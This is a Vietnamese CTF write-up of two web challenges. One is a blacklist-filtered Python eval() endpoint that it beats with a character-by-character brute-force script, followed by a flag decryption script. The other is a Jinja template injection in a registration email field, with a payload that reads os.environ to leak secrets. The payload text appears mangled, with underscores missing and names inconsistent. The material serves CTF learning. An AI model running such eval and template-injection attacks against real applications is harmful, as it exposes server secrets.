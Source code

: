 # Some note about UMDCTF - m0leCon CTF 2022
## UMDCTF 2022 - A Simple Calculator

*source code*: https://drive.google.com/file/d/1H-VvvdStKw6ReLB2BXHYw9Zu4YLb6qIy/view?usp=sharing

Review source code

```python
# .....
from secrets import flag_enc, ws
#....
def z(f: str):
    for w in ws:
        if w in f:
            raise Exception("nope")
    return True
# .....
@app.route('/calc', methods=['POST'])
def calc():
    val = 0
    try:
        z(request.json['f'])
        val = f"{int(eval(request.json['f']))}"
# .....
```
File `secrets.py` có chứa `flag_enc` và `ws` được import vào `app.py`. `ws` có chứa các blacklist keyword đã được dấu trước khi public source-code. Server nhận f parameter đi qua hàm z, nếu trùng với blacklist thì sẽ trả về lỗi còn nếu không thì được đi vào `eval()`. 

Fuzz qua thì biết được hàm `ord()` và một số kí tự khác như `\` bị block nên không thể bypass hàm `z` hay đọc result dạng từng số ascii nên ta sẽ brute-force `flag_enc` bằng cách cắt ra từng kí tự rồi so sánh từng cái thôi. 

**Python scripts**: Brute-force encrypted flag
```python
import requests
import string

url = 'https://calculator-w78ar.ondigitalocean.app/'
characters = string.ascii_letters + string.digits + string.punctuation
# val = f"{int(eval(request.json['f']))}"

flag = ''
for i in range(len(flag), 100):
    for c in characters:
        json = {
            "f": f"flag_enc[{i}:{i+1}] == '{c}'"
        }
        
        r = requests.post(url+'calc', json=json)
        result = r.json()['result']
        print(flag+c)
        
        if result == '1':
            flag += c
            print('[FOUND] : ' + flag)
            if c == '}':
                exit('done!')
            break
```

**encrypted flag**: `OGXWNZ{q0q_vlon3z0lw3cha_4wno4ffs_q0lem!}`

Flag nhận được đã bị encrypt bằng hàm `encrypt()` trong file `secrets.py`. 

**Python scripts**: Decrypt encrypted flag
```python
FLAG = 'OGXWNZ{q0q_vlon3z0lw3cha_4wno4ffs_q0lem!}'

def encrypt(text: str, key: int):
    result = ''
    for c in text:
        if c.isupper():
            c_index = ord(c) - ord('A')
            c_shifted = (c_index + key) % 26 + ord('A')
            result += chr(c_shifted)
        elif c.islower():
            c_index = ord(c) - ord('a')
            c_shifted = (c_index + key) % 26 + ord('a')
            result += chr(c_shifted)
        elif c.isdigit():
            c_new = (int(c) + key) % 10
            result += str(c_new)
        else:
            result += c
    return result
    
def reverse(c, er):
    a = ord(c) - ord(er)
    if a >= key:
        result = a - key + ord(er)
    else:
        result = a + 26 - key + ord(er)
    return chr(result)
    
def decrypt(text: str, key: int):
    result = ''
    for c in text:
        if c.isupper():
            result += reverse(c, 'A')
        elif c.islower():
            result += reverse(c, 'a')
        elif c.isdigit():
            c_new = (int(c) + key) % 10
            result += str(c_new)
        else:
            result += c
    return result
    
def find_key():
    for i in range(100):
        if encrypt('UMDCTF', i) == 'OGXWNZ':
            return i
            
key = find_key()
print(f'[KEY FOUND] : ' + str(key))

flag_dec = decrypt(FLAG, key)
flag_enc = encrypt(flag_dec, key)

print(flag_dec)
print(flag_enc)
```
**Hoặc**:
![unknown](https://user-images.githubusercontent.com/71699412/157073116-d26b0f75-c3be-413f-96af-243932de5519.png)

**flag**: `UMDCTF{w0w_brut3f0rc3ing_4ctu4lly_w0rks!}`


## m0leCon teaser 2022 - Dumb Forum
Website forum, có chức năng đăng kí rồi đăng nhập. Sau khi đăng nhập ta có thể viết và đăng lên 1 trang forums chung và có 1 tab cho xem thông tin tài khoản.
Chall này cho *sourcec-code*, review thì thấy hầu hết các `route` filter  `{` và `}` bằng hàm `validate_on_submit()`, ngoại trừ chỗ email, test thử `{{7*'7'}}` ta biết website dính SSTI chỗ register phần email.

Tuy nhiên phần email lại bị block 1 số kí tự khác như `(`, `)`, `[` và `]` nên ta không thể SSTI chọn elements hay gọi hàm/method, thử bypass cũng không thể, ngồi loay hoay tìm cách RCE không được.

Đọc lại file `config.py` mới đơ người:

```python
import os

basedir = os.path.abspath(os.path.dirname(__file__))


class Config(object):
    SECRET_KEY = os.environ.get("SECRET_KEY") or os.urandom(32)
    SQLALCHEMY_DATABASE_URI = os.environ.get(
        "DATABASE_URL"
    ) or "sqlite:///" + os.path.join(basedir, "db", "app.db")
    SQLALCHEMY_TRACK_MODIFICATIONS = False
```

Vâng `os.environ`, có mắt như \*\*, vậy để có được flag ta chỉ cần đọc được các enviroment variables mà không cần bypass các ký tự trên(bởi không thể) để RCE.

Module `os` của python có object `environ` chứa tất cả các biến môi trường, dùng class `cyler` ta tìm được đến constructor `init` và nhờ đó gọi được đến module `os` rồi form được payload sau

```python
{{cyler.init.globals.os.environ}}
```

Đặt email là: `{{joiner.init.globals.os.environ}}@a.b`, login vào profile ta được flag

..........

**FLAG**: `ptm{d1d_u_f1nd_th3_r1ckr0ll?}`

